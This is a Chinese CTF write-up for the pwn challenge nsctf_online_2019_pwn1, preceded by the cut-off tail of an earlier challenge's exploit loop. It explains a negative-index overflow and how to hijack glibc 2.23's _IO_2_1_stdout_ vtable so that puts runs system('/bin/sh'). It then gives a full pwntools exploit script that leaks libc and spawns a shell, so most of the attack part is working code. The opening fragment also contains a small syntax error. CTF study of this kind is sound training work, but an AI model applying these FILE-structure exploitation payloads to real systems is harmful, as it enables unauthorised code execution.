    p.sendlineafter('choice >> ',str(1))
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    p.sendlineafter('input index: ',str(14))
    #duan()


while 1:
    try:
        p=process('./pwn')
        #p=remote('node4.buuoj.cn',26485)
        pwn()
        p.sendline("ls")
        p.sendline("cat flag")
    itr()
    except ：
        p.close()
```

# nsctf\_online\_2019\_pwn1

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170511-b8de8b00-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170517-bc937724-14c9-1.png)  
edit函数这检查不严格，存在负数溢出漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170526-c18929ea-14c9-1.png)  
这里如果add申请的和修改的大小一样的话还存在off by null漏洞，但这里我们利用负数溢出来做这个题，这样比较简单。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170535-c739fffe-14c9-1.png)

## 思路

这里的负数溢出时可以找到 \_IO\_2\_1_stdout_ 结构体指针的，直接打 IO leak 修改\_IO\_2\_1\_stdout\_的\_IO\_write\_base的低字节为0x00和\_flags为0xfbad1887，泄露出libc的地址  
再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base字段，最终劫持vtable中的\_IO\_new\_file\_xsputn函数为system函数，执行获取shell。(利用puts的调用链，执行system("/bin/sh"))

## 详细流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170555-d2b818a2-14c9-1.png)  
offset=(0xa0-0x20)/0x8=0x10

```plain
add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170620-e1ecc462-14c9-1.png)  
下表也可以看出来

```plain
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

1、篡改\_IO\_FILE结构体中的vtable字段时，要不可避免的填充之前的字段，但如果将\_lock字段破坏的话，在执行输出函数中最开始上锁的宏\_IO\_acquire\_lock (\_IO\_stdout)就会崩溃掉，因此需要保证\_lock字段是正常的。

2、如果想通过直接修改 \_IO\_2\_1_stdout_ 结构体中的字段来getshell的话，我们可以将\_flags字段写入字符串/bin/sh\\x00(是字符串，并非该字符串的地址)，然后将vtable修改为\_IO\_2\_1\_stdout\_的地址+0x10，然后将\_IO\_save\_base字段(0x48)写成system地址，最后要将\_lock字段写入原本正常的值。这样当执行puts函数的时候会调用vtable中的\_IO\_new\_file\_xsputn函数，但是vtable已经被修改，这个函数的偏移是0x38,而vtable被修改成\_IO\_2\_1\_stdout\_的地址+0x10,最终调用的是\_IO\_2\_1\_stdout\_的地址+0x48的函数指针，而这个位置就是\_IO\_save\_base字段，里面放的是system的地址。而\_IO\_new\_file\_xsputn函数的第一个参数是\_IO\_2\_1\_stdout\_的地址，而这个地址原本应该是\_flags字段，但是现在却被写入了/bin/sh字符串。因此本来正常调用的\_IO\_new\_file\_xsputn函数如今变成了system(‘/bin/sh\\x00’),从而获取shell。(该方法在libc2.23以上的版本就无法再使用了)

根据上面的原理，我们再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base字段。

\_flags：'/bin/sh\\x00'  
\_IO\_save\_base: system  
\_lock: \_IO\_stdfile\_1\_lock #确保这个\_lock字段的值是正常的  
vtable: \_IO\_2\_1_stdout_ +0x10

```plain
pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```

## exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('5.exit\n',str(1))
    sla('Input the size:\n',str(size))
    sa('Input the content:\n',content)

def delete(idx):
    sla('5.exit\n',str(2))
    sla('Input the index:\n',str(idx))

def edit(idx,size,content):
    sla('5.exit\n',str(4))
    sla('Input the index:\n',str(idx))
    sla('Input size:\n',size)
    sa('Input new content:\n',content)

add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl) #
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c36e0
leak('libc_base',libc_base)
leak('_IO_save_base',libc.symbols['system']+libc_base)
leak('lock',libc_base+0x3c6780)
leak('vtable',libc_base+libc.symbols['_IO_2_1_stdout_']+0x10)

pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])

edit(-0x10,0xf0,pl)
itr()
```
